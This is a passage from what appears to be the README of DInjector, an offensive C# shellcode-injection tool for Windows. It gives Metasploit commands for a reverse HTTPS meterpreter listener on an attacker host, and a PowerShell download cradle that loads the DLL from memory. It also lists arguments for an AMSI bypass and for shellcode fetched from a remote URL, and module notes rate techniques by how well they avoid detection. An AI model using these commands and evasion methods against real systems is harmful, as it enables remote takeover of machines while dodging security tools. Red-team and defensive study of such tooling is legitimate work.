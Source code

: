 ```console
~$ sudo python3 -m http.server 80
~$ sudo msfconsole -qx "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_winhttps; set lhost 10.10.13.37; set lport 443; set EXITFUNC thread; run"
```

5. Use the PowerShell download [cradle](/cradle.ps1) to load DInjector.dll as `System.Reflection.Assembly` and execute it from memory.

:warning: I **do not** recommend putting the assembly on disk because it will very likely be flagged.

Required global arguments:

| Name        | Example Value            | Description                                                        |
|-------------|--------------------------|--------------------------------------------------------------------|
| `/am51`     | `True`, `False`          | Applies AMSI bypass                                                |
| `/sc`       | `http://10.10.13.37/enc` | Sets shellcode path (can be loaded from URL or as a Base64 string) |
| `/password` | `Passw0rd!`              | Sets password to decrypt the shellcode                             |

## Modules

:warning: OpSec safe considerations are based on my personal usage expirience and some testings along the way.

### [FunctionPointer](/DInjector/Modules/FunctionPointer.cs)

```yaml
module_name: 'functionpointer'
description: |
  Allocates a RWX memory region, copies the shellcode into it
  and executes it like a function.
calls:
  - ntdll.dll:
    1: 'NtAllocateVirtualMemory (PAGE_READWRITE)'
    2: 'NtProtectVirtualMemory (PAGE_EXECUTE_READ)'
opsec_safe: false
references:
  - 'http://disbauxes.upc.es/code/two-basic-ways-to-run-and-test-shellcode/'
  - 'https://www.ired.team/offensive-security/code-injection-process-injection/local-shellcode-execution-without-windows-apis'
  - 'https://www.fergonez.net/post/shellcode-csharp'
```

### [FunctionPointerV2](/DInjector/Modules/FunctionPointerV2.cs)

```yaml
module_name: 'functionpointerv2'
description: |
  Sets RWX on a byte array and executes it like a function.
calls:
  - ntdll.dll:
    1: 'NtProtectVirtualMemory (PAGE_EXECUTE_READ)'
opsec_safe: false
references:
  - 'https://jhalon.github.io/utilizing-syscalls-in-csharp-1/'
  - 'https://jhalon.github.io/utilizing-syscalls-in-csharp-2/'
  - 'https://github.com/jhalon/SharpCall/blob/master/Syscalls.cs'
```
